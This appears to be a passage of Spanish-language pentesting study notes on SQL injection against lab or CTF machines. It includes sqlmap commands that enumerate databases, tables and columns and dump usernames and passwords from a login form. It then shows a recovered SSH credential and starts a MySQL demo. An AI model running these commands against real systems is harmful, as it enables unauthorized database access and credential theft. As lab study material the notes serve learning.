 ![[Pasted image 20230131220135.png]]
Y nos encontró estas 3 tablas, que la interesante es la de user:
![[Pasted image 20230131220146.png]]
Ahora vamos a acceder a las columnas de la tabla users:
![[Pasted image 20230131220155.png]]
Y ya tenemos el resultado:
![[Pasted image 20230131220203.png]]
Y ahora vamos a acceder a los registros de cada una de estas columnas:
![[Pasted image 20230131220224.png]]
Y nos encontró esta credencial, aunque viene hasheada:
![[Pasted image 20230131220236.png]]
## OPCIÓN 2 CON SQLMAP
Por ejemplo tenemos este panel de login de la máquina [[MAQUINA SHOP (Fuzzing, SQLi con sqlmap, escalada de privilegios en Linux con linpeas, perl y gtfobins)]]
![[Pasted image 20230720124445.png]]
En este punto, podemos probar si esto es vulnerable a una sql injection con sqlmap con este parámetro:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms --dbs --batch
```
Y tenemos estas bases de datos:
![[Pasted image 20230720130018.png]]
Ahora vamos a atacar a la base de datos webapp, donde si queremos ver las tablas con sqlmap, debemos usar el siguiente parámetro:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms -D Webapp --tables --batch
```
Y vemos la tabla users:
![[Pasted image 20230720130239.png]]
Ahora para ver las columnas de la tabla Users, lo haríamos de la siguiente forma:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms -D Webapp -T Users --columns --batch
```
![[Pasted image 20230720130627.png]]
Y ahora para ver todos estos registros con los usuarios y contraseñas, lo haríamos con el siguiente parámetro:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms -D Webapp -T Users -C password,id,username --dump --batch
```
![[Pasted image 20230720131304.png]]
Por tanto ahora vamos a probar en acceder por ssh con el usuario bart y contraseña b4rtp0w4:
```bash
bart:b4rtp0w4
### Funcionamiento de SQL Injection Explicada desde MySQL
Vamos a mostrar el funcionamiento de una SQL injection desde MySQL para entenderlo mejor, por tanto creamos una base de datos llamada users:
```python
CREATE DATABASE users;
```
Y ahora creamos una tabla llamada acceso:
```python
CREATE TABLE acceso (
  id_usuario INT NOT NULL AUTO_INCREMENT,
  usuario VARCHAR(50) NOT NULL,
  contraseña VARCHAR(50) NOT NULL,
  PRIMARY KEY (id_usuario)
);
```
